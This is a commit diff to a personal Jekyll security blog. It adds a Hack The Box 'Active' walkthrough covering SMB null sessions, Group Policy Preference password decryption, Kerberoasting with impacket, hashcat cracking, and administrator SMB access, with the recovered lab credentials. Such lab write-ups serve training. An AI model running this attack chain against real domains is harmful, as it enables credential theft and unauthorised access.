

Before and after one commit to cyb3rdan/cyb3rdan.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page, without its empty margins (3-1030 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
added post

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -12,6 +12,7 @@
 plugins: [jekyll-paginate]
 paginate: 5
 paginate_path: "page:num"
+excerpt_separator: <!--more-->
 
 # About/contact
 author:
@@ -20,3 +21,10 @@
 
 # Custom vars
 version:             1.0.0
+
+# Defaults
+defaults:
+  - scope:
+      path: "assets/images"
+    values:
+      image: true
--- a/_posts/2018-11-16-First-Post.md
+++ b/_posts/2018-11-16-First-Post.md
@@ -1,12 +1,14 @@
 ---
 layout: post
 title: First Post
+tag: [other]
 ---
-
 Creating a blog is something I've been wanting to do for a while now, but there have been so many more important things going on in my life that meant I just never got around to it.
 
 In terms of content, I have been focusing quite a lot on [Hack The Box](https://www.hackthebox.eu/) lately, and I will likely start with some walkthroughs once I get around to making my notes more complete.
 
+<!--more-->
+
 Other than walkthroughs, I will be starting my [OSCP](https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/) journey soon, and am planning to add my thoughts to the many others who have been through the same process before me. The hope is that if I can write about certain tools and processes that it will only increase my chances of passing on my first attempt.
 
 If that sort of stuff is of any interest to you, then keep an eye out for more posts.
--- /dev/null
+++ b/_posts/2018-12-13-Hack-the-Box-Active.md
@@ -0,0 +1,73 @@
+---
+layout: post
+title: Hack the Box - Active
+tags: [hackthebox]
+---
+![active-badge]({{site.url}}/assets/images/active/active-badge.jpg){:class="img-responsive"}
+<!--more-->
+
+- nmap uncovered what appeared to be a domain controller based upon the open ports
+
+{% highlight bash %}
+nmap -vv -sC -sV -oA initial 10.10.10.100
+{% endhighlight %}
+![nmap-scan]({{site.url}}/assets/images/active/active-nmap.jpg){:class="img-responsive"}
+
+- tested and confirmed that SMB null session could be established using:
+
+{% highlight bash %}
+smbclient //10.10.10.100/ -U '' -W ACTIVE -p ''
+{% endhighlight %}
+
+- found what appeared to be GPO preference files with encrypted password in a file groups.xml
+
+{% highlight bash %}
+userName="active.htb\SVC_TGS"
+cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
+{% endhighlight %}
+
+- found [https://github.com/reider-roque/pentest-tools/tree/master/password-cracking/gpprefdecrypt](https://github.com/reider-roque/pentest-tools/tree/master/password-cracking/gpprefdecrypt), and used the python script to crack the passowrd. Usage as follows:
+
+{% highlight bash %}
+python gpprefdecrypt.py edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
+{% endhighlight %}
+
+- got the password: **GPPstillStandingStrong2k18**
+
+- researched kerberos based upon the username "TGS" and the fact that it is a domain controller.
+
+- found [https://malicious.link/post/2016/kerberoast-pt2/](https://malicious.link/post/2016/kerberoast-pt2/) and more specifically the reference to impacket at the bottom of the page
+
+- cloned impacket from [here](https://github.com/SecureAuthCorp/impacket)
+
+- ran the following command using the above credentials, and got the output below
+
+{% highlight bash %}
+./GetUserSPNs.py -request active.htb/SVC_TGS
+{% endhighlight %}
+
+![active-impacket]({{site.url}}/assets/images/active/active-impacket.jpg){:class="img-responsive"}
+
+- checked the [Hashcat example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) for $krb5tgs$23$ format and found that it matches mode 13100
+
+- added the entire $krb5tgs$23$ string above to a file called active.krb, and used hashcat along with the rockyou.txt wordlist to get the password
+
+{% highlight bash %}
+./hashcat -m 13100 active.krb /pentest/wordlists/rockyou.txt
+{% endhighlight %}
+
+- after only a few seconds I had the password: **Ticketmaster1968**
+
+- ran the following command with the new crednetials to connect to the users share
+
+{% highlight bash %}
+smbclient //10.10.10.100/Users -U Administrator -W ACTIVE -p Ticketmaster1968
+{% endhighlight %}
+
+- browsed to Administrator/Desktop and ran the following to get the flag
+
+{% highlight bash %}
+get root.txt
+{% endhighlight %}
+
+- to get a shell as Administrator you can simply use the psexec.py impacket script with the same credentials
--- a/index.html
+++ b/index.html
@@ -14,7 +14,7 @@
 
     <span class="post-date">{{ post.date | date_to_string }}</span>
 
-    {{ post.content }}
+    {{ post.excerpt }}
   </div>
   {% endfor %}
 </div>
```
Also changed, not shown: assets/images/active/active-badge.jpg (added), assets/images/active/active-impacket.jpg (added), assets/images/active/active-nmap.jpg (added), 9 other files.
